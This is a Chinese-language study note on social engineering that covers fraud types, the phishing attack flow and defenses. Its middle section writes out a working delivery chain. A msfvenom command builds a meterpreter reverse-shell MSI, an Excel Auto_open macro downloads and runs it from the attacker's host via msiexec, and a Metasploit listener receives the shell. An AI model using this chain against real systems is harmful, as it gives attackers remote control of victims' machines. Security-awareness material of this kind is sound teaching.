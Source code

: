 # 社会工程学 （Social Engineering）
### 社会工程学
- 是一种非技术性攻击的攻击技术。
- 通过欺骗、诱骗或操纵个人或组织，以获得机密信息或进行为经授权的行为。
- 利用人类弱点，如紧迫感、好奇心、同情、信任、恐惧、无知、疏忽、贪婪、疲劳等，来获取信息或进入安全措施保护下的系统。
- 欺诈手段：电话诈骗、钓鱼邮件、假冒网站、欺骗等。
- 防范：提高警惕、加强安全意识、限制敏感信息的访问权限、建立身份验证和访问控制措施等。
- 更多信息：https://mp.weixin.qq.com/s/dt2yHvWDIcdpnC3ag5gXsw
#### 电信诈骗手段类型
1. 资金窃取 ： 中奖短信、退税、订单异常
2. 身份冒充：冒充亲人、同事、朋友
3. 承接需求：买房、升学、退费、求职
4. 交友诈骗：杀猪盘、酒托
5. 果聊诈骗：诱导下载恶意软件、获取通讯录、录像
6. 投资理财诈骗：高回报投资App、贷款、庞氏骗局（Ponzi schema）
7. 兼职类诈骗: 刷单诈骗、打字诈骗
8. 冒充公检法诈骗：账户有洗黑钱
### 攻击流程
1. 收集目标信息：社交网站、社工库、冒充身份获取
2. 伪造身份与目标接触：求职者、同事、维修工
3. 编造谎言迷惑目标 ：发送邮件、连接网络、进入机房
4. 展开攻击 ： 接入网络、控制机器、窃取信息

## 社会工程学案列与工具
### 社会工程学案列
1. 钓鱼邮件
2. 钓鱼网站
3. msfvenom生成msi文件，MSF或CS监听
4. badusb ：U盘里有恶意代码，插入可自动运行
5. 恶意EXP
6. 近源攻击
7. 其他近源攻击手段 ：面试入职、连接公司WiFi、自作钓鱼WiFi （fluxion）,等等。
8. 利用诱惑 ：美女、金钱、送人情
#### 钓鱼邮件
- 以获取邮件地址或密码
- 伪造发件人邮件地址：不一定能成功
- 写有吸引力的主题：如账号登入提醒、请求修改密码
- 写又说服力的内容
- 诱导点击或者下载
- 工具：postfix、gophish
#### msfvenom生成msi宏文件
- 以获取邮件地址或账号密码
1. msfvenom -p windows/meterpreter/reverse_tcp lhost=192.x.x.x lport=4444 -f msi -o hack.msi
2. 新建excel文件，保存为xlsm
3. 在另一个sheet插入宏表, 第一行里：=EXEC("msiexec /q /I http://192.x.x.x/hack.msi")，并模式修改为:Auto_open,回车，自动运行宏。
4. 第二行：=HALT()
#### office宏病毒-MSF监听
1. msfconsole
2. use exploit/multi/handler
3. set payload windows/meterpreter/reverse_tcp
4. set LHOST, LPORT , run
#### 钓鱼网站
1. 注册类似域名、伪造子域名
2. 克隆网站
3. 记录用户输入内容
- 工具：setoolkit , https://github.com/trustedsec/social-engineer-toolkit.git
### 社会工作学防范
1. 切勿轻易点击连接和打开文件
2. 身份确认：是这个人吗？
3. 启用多重身份认证
4. 更新杀毒软件
5. 不连接不安全WiFi
6. 社交网站隐藏个人信息
7. 加强员工安全意识和培训
8. 保持警惕
9. 加强安全意识
